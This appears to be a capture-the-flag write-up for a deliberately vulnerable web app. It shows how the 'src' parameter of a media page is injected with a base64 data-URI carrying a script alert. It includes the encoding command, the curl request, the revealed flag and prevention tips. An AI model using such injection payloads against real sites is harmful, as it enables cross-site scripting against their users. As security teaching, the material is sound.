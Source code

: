 If we look closely in the home page there is only one image that is a link, the picture of the nsa.

Once we click we got ridrected to `/?page=media&src=nsa`

Inspecting the page we see that the image is displayed not by a <img> but by a <object> tag :
<object data="http://10.14.59.83/images/nsa_prism.jpg"></object>

I noticed that the field src control what the data on the object tag.

So our goal is the change the data displayed by object.

We will try to inject javascript throught objet data by using base64 data type.

```bash
*[main][~/projects/darkly]$ echo -n "<script>alert(1)</script>" | base64
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
*[main][~/projects/darkly]$ 
```

`<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>`

```
*[main][~/projects/darkly]$ curl "http://10.14.59.83/?page=media&src='data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='"|grep flag   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2123    0  2123    0     0  2843k      0 --:--:-- --:--:-- --:--:-- 2073k
<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>	</div>
*[main][~/projects/darkly]$ 
```

Preventions:
- *Input Validation:* Always validate and sanitize user inputs, especially those used to construct URLs or interact with external resources. Ensure inputs adhere to expected formats and content.

- *Whitelist Allowed Sources:* Maintain a list of trusted sources or URLs that your application can access. Validate incoming requests against this list to prevent unauthorized access to external resources.

- *User Data Handling:* Never use user-provided data directly in URLs or attributes. Generate URL values on the server-side using validated and safe data to prevent manipulation.